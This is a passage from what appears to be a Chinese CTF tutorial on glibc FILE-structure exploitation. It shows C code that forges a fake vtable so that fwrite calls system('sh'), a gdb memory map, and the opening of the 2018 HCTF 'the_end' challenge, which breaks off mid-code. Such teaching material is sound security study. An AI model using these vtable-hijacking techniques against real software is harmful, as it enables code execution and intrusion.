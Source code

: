 

但是在目前libc2.23版本下，位于libc数据段的vtable是不可以进行写入的。不过，通过在可控的内存中伪造vtable的方法依然可以实现利用。

```
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;
    
    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);
    
    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset
    
    vtable_addr[0]=(long long)fake_vtable;
    
    memcpy(fp,"sh",3);
    
    fake_vtable[7]=system_ptr; //xsputn
    
    fwrite("hi",2,1,fp);
}
```

我们首先分配一款内存来存放伪造的vtable，之后修改_IO_FILE_plus的vtable指针指向这块内存。因为vtable中的指针我们放置的是system函数的地址，因此需要传递参数"/bin/sh"或"sh"。

因为vtable中的函数调用时会把对应的_IO_FILE_plus指针作为第一个参数传递，因此这里我们把"sh"写入_IO_FILE_plus头部。之后对fwrite的调用就会经过我们伪造的vtable执行system("sh")。

同样，如果程序中不存在fopen等函数创建的_IO_FILE时，也可以选择stdin\stdout\stderr等位于libc.so中的_IO_FILE，这些流在printf\scanf等函数中就会被使用到。在libc2.23之前，这些vtable是可以写入并且不存在其他检测的。

```
print &_IO_2_1_stdin_
$2 = (struct _IO_FILE_plus *) 0x7ffff7dd18e0 <_IO_2_1_stdin_>

0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
```

## 2018 HCTF the_end

[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/io-file/2018_hctf_the_end/)

### 基本信息

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  signed int i; // [rsp+4h] [rbp-Ch]
  void *buf; // [rsp+8h] [rbp-8h]

  sleep(0);
  printf("here is a gift %p, good luck ;)\n", &sleep);
  fflush(_bss_start);
  close(1);
  close(2);
  for ( i = 0; i <= 4; ++i )
  {
    read(0, &buf, 8uLL);
    read(0, buf, 1uLL);
  }
```